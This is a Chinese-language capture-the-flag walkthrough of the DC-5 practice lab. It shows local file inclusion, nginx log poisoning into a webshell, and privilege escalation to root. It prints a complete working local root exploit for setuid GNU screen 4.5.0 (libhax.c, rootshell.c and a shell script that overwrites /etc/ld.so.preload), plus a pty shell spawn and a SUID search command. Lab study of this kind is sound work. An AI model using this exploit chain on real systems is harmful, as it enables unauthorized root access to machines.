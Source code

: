 ```yaml
---
title: DC-5复现
---
```

# DC-5复现

# 描述

> DC-5是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 该计划是让DC-5将其提升一个档次，因此这对初学者来说可能不是很好，但对于具有中级或更好经验的人来说应该是可以的。时间会证明一切（反馈也会证明一切）。
>
> 据我所知，只有一个可利用的入口点可以进入（也没有SSH）。这个特定的入口点可能很难识别，但它就在那里。您需要寻找一些与众不同的东西（随着页面的刷新而改变的东西）。这有望提供某种关于漏洞可能涉及的内容的想法。
>
> 只是为了记录，不涉及phpmailer漏洞。:-)
>
> 此挑战的最终目标是获取根并读取唯一的标志。
>
> Linux技能和熟悉Linux命令行是必须的，基本的渗透测试工具的一些经验也是如此。
>
> 对于初学者来说，Google可以提供很大的帮助，但是您可以随时在@DCAU7上发推文给我寻求帮助，以帮助您再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 但是，如果您真的，真的卡住了，您可以观看这个视频，其中显示了第一步。

# 实战

## 信息收集

> 确定目标靶机的IP
>
> 扫面网段并判断目标靶机的IP，最终确定IP：192.168.116.129，并发现该靶机开放了80、111端口

![image-20220921225731025](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921225731025.png)

- 访问80端口

![image-20220921225838699](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921225838699.png)

## 目录扫描

![image-20220921230332927](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921230332927.png)

## 寻找漏洞

- 访问footer.php，发现年份是一直在变化的

![image-20220921230358781](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921230358781.png)

- 然后又访问了thankyou.php，在这里发现该页面调用了footer.php

![image-20220921230429298](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921230429298.png)

- 应该是使用php的‘include()’ 函数来包含了 ‘footer.php’ 文件，这样直接导致了LFI漏洞，下面我们来测试一下漏洞是否真的存在和看一下是否会过滤包含进来的文件

![image-20220921230459378](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921230459378.png)

- 发现可以成功读取到 /etc/passwd文件，存在文件包含漏洞
  - 靶机服务扫描时发现靶机网站使用的是nginx服务器，通过百度nginx服务器的配置文件/etc/nginx/nginx.conf，将nginx的配置文件包含过来查看日志路径，经过仔细查看发现了nginx的日志路径

![image-20220920191246277](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220920191246277.png)

## 漏洞利用

- 于是我们尝试包含日志文件，然后我们可以看到，日志文件会记录我们传入的参数，所以我们可以把php一句话当参数传给日志文件，然后再次尝试包含日志文件，即可使用webshell管理工具，蚁剑连接即可获得shell

![image-20220920200407600](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220920200407600.png)

![image-20220920200444798](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220920200444798.png)

- 蚁剑连接

![image-20220920200625503](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220920200625503.png)

## 反弹shell

- 进入虚拟终端反弹shell

![image-20220920204425272](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220920204425272.png)

- 切换一下shell的外壳;

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```

## 提权

- 这里用的是suid提权,先用下面命令查找哪些命令具有suid权限

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220921140010475](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921140010475.png)

> 找到一个screen-4.5.0，
>
> 用searchsploit 查找相关漏洞脚本

```
searchsploit screen 4.5.0 
```

![image-20220921140243318](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921140243318.png)

- 找到文件位置

![image-20220921141422922](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921141422922.png)

- 查看文件

![image-20220921141524801](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921141524801.png)

- 保存并编译libhax.c和rootshell.c

![image-20220921141717743](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921141717743.png)

- 编译libhax.c
- 脚本

> gcc -fPIC -shared -ldl -o libhax.so libhax.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

- 编译rootshell.c
- 脚本

> gcc -o rootshell rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

> 将剩余代码保存为dc5.sh，再用vim打开编辑
>
> 保存dc5.sh文件输入 **:set ff=unix** ，否则在执行脚本文件时后出错

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell  
```

![image-20220921215636375](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921215636375.png)

- 将libhax.so 、rootshell 、dc5.sh三个文件通过蚁剑上传到靶机/tmp目录

![image-20220921220755016](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921220755016.png)

- 上传成功后，执行dc5.sh

> chomd +x dc5.sh	//增加执行权限
>
> ./dc5.sh	//执行文件

![image-20220921221625827](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921221625827.png)

- 进到root文件夹读取文件

![image-20220921221721259](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220921221721259.png)
